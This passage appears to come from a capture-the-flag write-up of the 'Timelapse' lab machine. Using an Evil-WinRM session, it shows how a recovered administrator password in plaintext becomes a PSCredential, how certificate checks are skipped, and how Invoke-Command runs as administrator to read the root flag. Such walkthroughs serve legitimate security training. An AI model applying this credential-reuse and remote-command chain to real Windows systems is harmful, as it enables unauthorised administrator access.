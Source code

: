 ### Invoke commands as administrator

We can use this to form a new PSCredential object and invoke a command as 'administrator'.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'O2]Br]z.tWI%(0G79c5Z8g2$' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('administrator', $p)
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}

timelapse\administrator
```

Upon searching for the root flag in the usual place, root.txt in the Desktop folder of the administrator, we find no such file. I'm surprised to see that someone has moved the root flag on us. Cheeky.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {type C:\users\administrator\desktop\root.txt}
Enter PEM pass phrase:
Cannot find path 'C:\users\administrator\desktop\root.txt' because it does not exist.
```

Upon checking the Desktop folders of other users, we find the root flag on the desktop of user 'TRX'

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'O2]Br]z.tWI%(0G79c5Z8g2$' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('administrator', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {type C:\Users\TRX\Desktop\root.txt}
```